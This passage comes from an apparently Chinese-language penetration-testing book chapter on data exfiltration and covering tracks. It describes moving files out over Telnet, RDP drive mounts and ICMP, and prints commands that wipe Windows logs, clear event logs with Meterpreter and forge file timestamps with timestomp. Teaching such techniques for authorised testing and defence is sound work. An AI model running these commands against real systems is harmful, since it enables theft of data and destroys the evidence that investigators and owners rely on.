这将向远程主机显示`etc/passwd`的所有内容。作为示例，我们正在从内部主机提取密码列表到 AWS 上的远程 Kali 机器，如*图 13.35*所示：


图 13.35：使用 Telnet 从本地 Kali 系统到远程 Kali 系统的数据外泄

另一种重要且相对简单的技术是，攻击者在网络中访问任意系统时，可以从 Meterpreter shell 中运行`getgui`，这将启用 RDP。一旦 RDP 被启用，攻击者可以配置其 Windows 攻击，将本地驱动器挂载到远程驱动器上，并将所有文件从远程桌面外泄到本地驱动器。

这可以通过进入**远程桌面连接**，选择**显示选项**，然后选择**本地资源**，接着选择**本地设备和资源**，点击**更多**，最后选择你想挂载的驱动器来实现，如*图 13.36*所示：


图 13.36：RDP 设置中挂载驱动器的选项

这将把攻击者本地机器的`D://`驱动器挂载到 RDP 系统上。可以通过使用 RDP 连接登录远程 IP 来确认这一点。默认情况下，应该会挂载一个额外的驱动器（`X:`），如*图 13.37*所示：


图 13.37：成功将攻击者的本地驱动器挂载到远程桌面

其他传统技术包括设置 SMB 服务器并允许被攻陷计算机的匿名访问，或者使用如 TeamViewer、Skype Chrome 插件、Dropbox、Google Drive、OneDrive、WeTransfer 等应用，或者任何其他一键共享服务来进行大文件传输。

## 使用 ICMP 协议

有多种方法可以利用 ICMP 协议来外泄文件，使用诸如`hping`、`nping`和`ping`等工具。在本节中，我们将使用`nping`工具通过 ICMP 协议执行机密文件的外泄。

在此示例中，我们将使用`tcpdump`从`pcap`转储文件中提取数据。在终端中运行以下命令以启用监听器：

```
tcpdump -i eth0 'icmp and src host <KALI IP>' -w importantfile.pcap 
```

攻击者应能够看到以下内容：


图 13.38 捕获数据包以接收内容

`10.10.10.12`是我们等待接收数据的目标主机。在发送方，一旦`hping3`命令发送到客户端（`10.10.10.12`），你应该会收到消息`EOF reached, wait some second than press ctrl+c`，如*图 13.39*所示。这表明文件已经通过 ICMP 外泄到目标服务器：


图 13.39：使用 hping3 工具通过 ICMP 发送文件

使用*Ctrl* + *C*关闭`tcpdump`。下一步是从`pcap`文件中删除不需要的数据，以便我们通过运行 Wireshark 或`tshark`仅将特定的十六进制值打印到文本文件中。

以下是用于过滤数据字段并仅从`pcap`文件中打印十六进制值的`tshark`命令：

```
tshark -n -q -r importantfile.pcap -T fields -e data.data | tr -d "\n" | tr -d ":" >> extfilterated_hex.txt 
```

现在，可以通过运行`cat extfilterated_hex.txt | xxd –r –p`命令将相同的十六进制文件转换。最终，你应该能够查看文件内容，如*图 13.40*所示：


图 13.40：从 pcap 中提取十六进制数据并使用 xxd 解码

这些技术正逐渐被其他工具集所取代，例如使用 TeamViewer、Dropbox 和其他云托管服务。

## 隐藏攻击证据

一旦系统被攻击者利用，攻击者必须掩盖自己的痕迹以避免被检测，或者至少让防御方重建事件变得更加困难。

攻击者可能完全删除 Windows 事件日志（如果它们在受害服务器上被积极保留）。这可以通过命令行界面执行，使用以下命令：

```
C:\> del %WINDIR%\*.log /a/s/q/f 
```

该命令将指示删除所有日志（`/a`），包括子文件夹中的所有文件（`/s`）。`/q` 选项禁用所有询问，不再要求 `yes` 或 `no` 响应，`/f` 选项强制删除文件，使恢复更加困难。

为了抹掉特定记录的文件，攻击者必须跟踪所有在受害系统上执行的活动。

这也可以通过 Meterpreter 提示符使用 `clearev` 来完成。如 *图 13.41* 所示，这将清除目标系统的应用程序、系统和安全日志（此命令没有选项或参数）：


图 13.41：清除 Windows 事件日志

通常，删除系统日志不会触发任何用户警报。事实上，大多数组织配置日志记录时非常草率，以至于缺失的系统日志被视为一种可能发生的情况，而且不会进行彻底调查。

除了传统日志，攻击者还可能考虑从受害系统中删除 `PowerShell 操作日志`。

Metasploit 还有一个额外的技巧：`timestomp` 选项允许攻击者修改文件的 MACE 参数（文件的最后修改时间、访问时间、创建时间和 MFT 条目修改时间）。一旦系统被攻破并且建立了 Meterpreter shell，可以调用 `timestomp`，如 *图 13.42* 所示：


图 13.42：Meterpreter timestomp 选项

例如，受害系统的 `C:` 驱动器包含一个名为 `README.txt` 的文件。该文件的 MACE 值表明它最近被创建，如 *图 13.43* 所示：


图 13.43：在特定本地文件上运行 timestomp

如果我们想隐藏这个文件，可以将它移动到一个杂乱的目录，例如 `Windows\System32`。然而，这个文件对任何按创建日期或其他基于 MAC 的变量排序该目录内容的人来说都将是显而易见的。

相反，你可以通过运行以下命令来更改文件的时间戳：

```
meterpreter > timestomp -z "01/01/2001 10:10:10" README.txt 
```

这将更改 `README.txt` 文件的时间戳，如 *图 13.44* 所示：


图 13.44：修改文件的元数据以反映虚假的日期

为了完全破坏调查，攻击者可能会使用以下命令递归地更改某个目录或特定驱动器中的所有时间：

```
meterpreter> timestomp C:\\ -r 
```

这个解决方案并不完美。很明显，攻击已经发生。此外，时间戳可以保存在硬盘的其他位置，并且可以供调查人员访问。如果目标系统正在通过入侵检测系统（如 Tripwire）主动监控系统完整性的变化，那么时间戳篡改活动会触发警报。因此，当需要真正隐秘的方式时，摧毁时间戳的价值有限。

# 总结

在这一章中，我们深入探讨了攻击者用来保持对被攻陷环境访问的不同策略，包括通过域名前置隐藏攻击来源，同时我们也学习了如何隐藏攻击证据、掩盖踪迹并保持匿名，这是网络攻击杀伤链方法论的最后一步。

我们研究了如何使用 Netcat、Meterpreter、计划任务、PowerShell Empire 的 dbx 和 onedrive 模块、Covenant C2 和 Poshc2 植入物在被攻陷的系统上保持持久代理，以及如何通过传统服务（如 DNS、ICMP、Telnet、RDP 和 Netcat）来提取数据。我们还学会了如何找到易受攻击的域名前置域，并利用像 Amazon 和 Azure 这样的知名 CDN 来进行恶意活动。

在下一章中，我们将探讨如何利用现有的 Kali 2021.4 特性以及额外的工具来破解嵌入式设备和 RFID/NFC 设备。
